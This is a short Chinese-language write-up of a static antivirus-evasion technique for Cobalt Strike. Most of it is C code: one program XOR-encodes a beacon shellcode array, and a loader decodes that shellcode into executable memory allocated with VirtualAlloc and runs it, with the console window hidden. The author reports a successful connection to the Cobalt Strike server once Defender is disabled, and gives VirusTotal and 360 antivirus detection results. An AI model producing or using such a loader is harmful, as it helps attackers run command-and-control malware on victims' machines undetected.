 针对2021_02_10_CobaltStrike静态免杀的提取整理

使用VS2019编译如下C代码  
对shellcode进行异或编码，修改变量a的值即修改shellcode
```
#include <stdio.h>

unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00...";

int a = 1;
int b = sizeof(buf);
unsigned char str[891] = { 0 };

int main() {

    printf("char array length=%d\n", b);
    printf("\n");

    for (int i = 0; i < b; i++) {
        str[i] = buf[i] ^ a;
    }

    for (int i = 0; i < b; i++) {
        printf("\\x%x", str[i]);
    }
    
    return 0;
}
```
拷贝上述输出的shellcode到下述代码的字符数组中
```
#pragma comment(linker, "/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

#include <stdio.h>
#include <windows.h>
unsigned char buf[] = "\xfa\xee\x8f\x6\x6\x6\x66\x8f...";

int main() {
    for (int i = 0; i < sizeof(buf); i++) {
        _InterlockedXor8((volatile char*)buf + i, 6);
    }
    char* old = (char*)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
编译后会被Windows Defender查杀，关闭Windows Defender，能成功连接到CS

在VirusTotal上的检出率是29/67，如下图  
![image](./pic/0.png)  
提示360不能检测出来，如下图  
![image](./pic/1.png)  
但实际在一台物理机上测试发现，是能被检测的，如下图  
![image](./pic/2.png)  
![image](./pic/3.png)
